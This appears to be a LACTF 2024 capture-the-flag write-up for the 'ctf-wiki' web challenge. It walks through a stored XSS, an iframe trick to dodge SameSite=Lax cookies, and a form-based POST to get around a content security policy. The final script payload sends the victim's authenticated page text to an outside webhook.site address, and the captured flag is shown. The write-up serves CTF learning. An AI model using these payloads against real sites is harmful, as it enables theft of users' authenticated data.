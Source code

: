 ```yaml
---
title: ctf-wiki
date: 2024-02-20
tags: 
- web
- xss
- cookies
- csp
- author-hartmannsyg
categories: LACTF 2024
---
```


written by {% person hartmannsyg %}

We have an xss (sorta):

on the `/create`, in the description that supports markdown, we can put in script tags. 

![](../../static/LACTF2024/ctf-wiki-0.png)

If we view the page *without our authentication cookies* (like an incognito tab), we get an xss.

![](../../static/LACTF2024/ctf-wiki-1.png)

However, if you are logged in (i.e. if there are cookies), we get redirected to the edit:

{% ccb lang:py caption:app.py gutter1:101-104 caption:app.py %}
@app.get("/view/<pid>")
def page(pid):
    if session.get("username") is not None and session.get("password") is not None:
        return redirect("/edit/{}".format(pid))
{% endccb %}

![](../../static/LACTF2024/ctf-wiki-2.png)

So how do we access `/view/<pid>` without the session cookies?

{% ccb gutter1:12 lang:py caption:app.py %}
app.config["SESSION_COOKIE_SAMESITE"] = "Lax"
{% endccb %}

iframes only send SameSite=None cookies so if we set up our own website and use an iframe the cookies will not be sent:

{% ccb gutter1:1 lang:html caption:inject.html %}
<iframe src="https://ctf-wiki.chall.lac.tf/view/<pid>"></iframe>
{% endccb %}

Now that we have xss inside our iframe, we need to somehow access `/flag` *with* the cookies.

We can use window.open(), but we need to POST flag. We can't use scripts either due to the content security policy:
{% ccb gutter1:34-40 lang:py caption:app.py %}
@app.after_request
def apply_csp(response):
    if session.get("username") is not None and session.get("password") is not None:
        response.headers[
            "Content-Security-Policy"
        ] = "default-src 'self'; img-src *; font-src https://fonts.gstatic.com https://fonts.googleapis.com; style-src 'self' https://fonts.googleapis.com"
    return response
{% endccb %}

If we *edit* the opened window document:
{% ccb gutter1:1-7 lang:html caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.write("<script>fetch('https://ctf-wiki.chall.lac.tf/flag',{method:'post'})<\/script>")
    }
</script>
{% endccb %}


We get
{% ccb terminal:true wrapped:true html:true %}
<span style='color:#E06C75;'>Refused to execute inline script because it violates the following Content Security Policy directive: "default-src 'self'". Either the 'unsafe-inline' keyword, a hash ('sha256-74J0XhNNZyeyG2hc6SR5UoGLY+N1BT22Dw9QC4ZeN/Y='), or a nonce ('nonce-...') is required to enable inline execution. Note also that 'script-src' was not explicitly set, so 'default-src' is used as a fallback.
</span>


{% endccb %}

So in order to send a POST request without scripts, we use a form and submit it.
{% ccb lang:html gutter1:1-11 caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.body.innerHTML = `<form action="/flag" id="flagForm" method="post"></form>`;
        w.document.getElementById('flagForm').submit()
        setTimeout(()=>{
            console.log(w.document.body.innerText)
        }, 1000)
    }
</script>
{% endccb %}

We see that there is a `POST /flag` being sent (I went a bit overkill and track traffic via Requestly):

![](../../static/LACTF2024/ctf-wiki-3.png)


Now we just need to steal the `w.document.body.innerText`

{% ccb lang:html gutter1:1-11 caption:"player description" %}
<script>
    let w = window.open('https://ctf-wiki.chall.lac.tf/');
    
    w.onload = function () {
        w.document.body.innerHTML = `<form action="/flag" id="flagForm" method="post"></form>`;
        w.document.getElementById('flagForm').submit()
        setTimeout(()=>{
            window.location = 'https://webhook.site/<id>/flag='+w.document.body.innerText;
        }, 1000)
    }
</script>
{% endccb %}
we get a request:
{% ccb terminal:true %}
https://webhook.site/<id>/flag=lactf%7Bk4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3%7D
lactf{k4NT_k33P_4lL_my_F4v0r1T3_ctF3RS_S4m3_S1t3}
{% endccb %}

